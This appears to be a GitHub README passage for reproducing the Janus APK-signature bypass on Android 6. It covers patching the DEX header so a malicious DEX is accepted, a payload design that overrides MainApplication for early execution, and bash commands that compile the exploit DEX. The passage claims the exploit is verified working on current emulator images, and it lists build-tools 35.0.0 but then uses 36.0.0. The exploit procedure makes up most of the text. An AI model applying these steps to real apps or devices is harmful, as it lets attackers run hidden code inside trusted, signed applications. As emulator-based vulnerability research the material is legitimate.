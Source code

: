 ### Phase 3: Security Bypass
- ✅ `scam_android.py` — 💡 **My 4AM brilliant breakthrough**
- Android 6 performs **DEX file size validation**
- Solution: Modify the DEX header to **claim entire APK file size**
- Result: Android accepts the malicious DEX as valid → execution achieved ✅

---

## Payload Design

### Target Class – `MainApplication.java`

Why override it?

1. **Loads before any Activity.**
2. **Static blocks** run *immediately* when the class is referenced.
3. Hooks such as `attachBaseContext()` & `onCreate()` give multiple execution points.
4. Easy visual feedback via `Toast` / log messages.

---

## Step-by-Step Reproduction

### 1. Environment

| Requirement | Version |
| ----------- | ------- |
| Android SDK | Build-Tools **35.0.0** |
| Emulator    | **Android 6.0 (API 23)**, Security Patch **2016-09-06** |
| Host Tools  | Python 3 |
| **Compatibility** | ✅ **Verified working August 2025** on latest Android Studio AVD images |

> 🎯 **Critical Note**: This exploit works on **current Android Studio Android 6.0 system images** (August 2025), unlike most other Janus implementations found online that have become incompatible with modern development environments.


---

### 2. Craft the Malicious DEX

```bash
# a. Prepare directory structure
mkdir -p com/noexpoapp

# b. Drop exploit source
cp MainApplicationExploit.java com/noexpoapp/MainApplication.java

# c. Compile to DEX
mkdir temp_dex
$ANDROID_SDK_ROOT/build-tools/36.0.0/d8 --output temp_dex com/noexpoapp/MainApplication.class

# d. Rename & clean
mv temp_dex/classes.dex nuclear_mainapp.dex
rm -rf temp_dex
```
